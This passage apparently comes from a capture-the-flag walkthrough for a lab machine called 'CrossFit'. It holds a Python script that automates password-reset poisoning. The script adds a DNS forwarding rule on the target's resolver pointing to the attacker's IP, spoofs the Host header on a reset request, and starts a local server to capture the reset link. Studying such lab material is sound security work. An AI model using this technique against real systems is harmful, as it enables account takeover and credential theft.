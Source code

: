 python script to automate this
```py
from re import findall
from time import sleep
from subprocess import Popen, PIPE, STDOUT
from os import system
import requests as r

websocket = "ws://gym.crossfit.htb/ws/"
url = "http://employees.crossfit.htb/password-reset.php"
def req_token():
    data = {"email": "david.palmer@crossfit.htb"}
    headers = {"Connection": "keep-alive", "Host": "employeesXcrossfit.htb/employees.crossfit.htb"}
    rspn = r.post(url, data=data, headers=headers)
    alert = findall(r'role="alert">(.*?)<button', rspn.text)[0]
    return alert


fakedns = "/home/x00tex/git-tools/FakeDns/fakedns.py"
conf = "fakedns.conf"

# system('unbound-control -c ./unbound.conf -s 10.10.10.232 forward_add +i ex-employees.crossfit.htb 10.10.15.71')
system('unbound-control -c ./unbound.conf -s 10.10.10.232 forward_add +i employeesXcrossfit.htb 10.10.15.71')
out = Popen(['python', f'{fakedns}', '-c', f'{conf}'], stdout=PIPE, stderr=STDOUT)

sleep(5)
rspn = req_token()
print(rspn)
if "Reset link sent" in rspn:
    system("sudo php -S 0.0.0.0:80")
else:
    out.kill()
    exit()
```

### Socket.io listener hooing

After login to `crossfit-club.htb` found only functional page `chat`
